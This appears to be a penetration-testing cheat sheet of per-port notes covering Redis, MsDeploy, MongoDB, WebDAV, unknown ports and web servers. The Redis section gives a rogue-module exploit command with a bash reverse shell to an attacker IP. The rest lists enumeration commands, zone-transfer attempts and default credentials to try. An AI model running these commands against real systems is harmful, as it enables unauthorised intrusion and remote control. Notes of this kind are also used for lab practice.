 ## Redis - 6379

Ref: Sybaris, Wombo

```
https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis

https://github.com/vulhub/redis-rogue-getshell.git
sudo python3 redis-master.py -r 192.168.89.69 -L 192.168.49.89 -P 80 -f RedisModulesSDK/exp.so -c "bash -c 'bash -i >& /dev/tcp/192.168.49.89/8080 0>&1'"

```

## MsDeploy - 8172

```
Microsoft IIS Deploy port
IP:8172/msdeploy.axd
```
## Port 27017 - MongoDB
https://book.hacktricks.xyz/pentesting/27017-27018-mongodb

```
nmap -sV --script "mongo* and default" -p 27017 <IP> #By default all the nmap mongo enumerate scripts are used
```

## Webdav

```
davtest -cleanup -url http://target
cadaver http://target
```

## Unknown ports

- `amap -d 10.11.1.111 8000`
- netcat: makes connections to ports. Can echo strings or give shells: `nc -nv 10.11.1.111 110`
- sfuzz: can connect to ports, udp or tcp, refrain from closing a connection, 	using basic HTTP configurations
- Try zone transfer for subdomains: `dig axfr @10.11.1.111 hostname.box`, `dnsenum 10.11.1.111`, `dnsrecon -d domain.com -t axfr`

Try admin:admin, user:user

## Port 80 - Web server

- Basics:
  - Navigate && robots.txt
  - Headers
  - Source Code (Read for comments)
  - Pay attention to errors (Is there a protocol relationship)
